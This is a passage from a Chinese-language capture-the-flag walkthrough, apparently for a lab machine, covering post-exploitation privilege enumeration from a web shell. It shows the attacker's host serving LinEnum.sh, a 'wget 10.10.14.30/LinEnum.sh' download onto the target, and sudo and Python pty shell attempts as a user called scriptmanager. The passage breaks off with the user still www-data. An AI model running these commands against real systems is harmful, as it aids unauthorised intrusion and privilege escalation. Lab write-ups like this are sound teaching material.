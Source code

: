 因此，一旦我们得到这个 shell，我们将运行我们的基本命令来计算我们当前拥有的特权的范围。

第一个命令是“id ”,用于了解用户的详细信息。所以我们目前是一个名为 www-data 的用户。

现在，为了检查我们拥有的特权，我们将运行一个[脚本](https://netsec.ws/?p=309)来解决这个问题。为此，我们需要该脚本存在于易受攻击的机器上，因此第一步是将脚本从我们的机器转移到这台机器上。

首先，我们在我们的机器上下载所需的脚本，然后将它发送到我们存储关于被攻击机器的数据的文件夹中。一旦脚本出现在特定的文件夹中，我们就设置一个 httpServer，这样文件夹的内容就可以通过网络获得。

![](img/4e9a8e9a869d10f50c305cb812079321.png)

Linux 特权检查器脚本

现在，我们已经在机器上设置了 httpServer。我们回到易受攻击的机器上基于 web 的 shell，因为一旦文件通过 httpServer 上传，我们现在就可以使用“curl”或“wget”命令将其下载到我们的机器上。

这台机器上没有 Curl 命令，所以我们必须使用 wget 将文件下载到易受攻击的机器上。

```
var/www/html/dev# wget 10.10.14.30/LinEnum.sh
```

当从给定的文件夹执行上面的命令时，权限被拒绝，然后我们转到/dev/shm 目录，上面的命令开始工作。

一旦我们有了 LinEnum.sh 文件，我们就执行它来计算当前用户的特权和其他细节。

```
var/www/html/dev/shm# bash LinEnum.sh
```

我们获得了以下结果:

*   linux 版本已更新，因此在这里发现任何漏洞的可能性极小。
*   目前我们的用户 id 是(www-data)，还有一个名为 scriptmanager 的用户。
*   我们可以在没有密码的情况下使用& scriptmanager 可以运行任何东西。
*   我们目前拥有的 web 外壳不是持久的。

> 为了检查这一点，我们运行命令

```
sudo -u scriptmanager bash
```

> 和

```
python -c ‘import pty;pty.spwan(“/bin/bash”)’ 
```

> 但我们仍然是 www-data
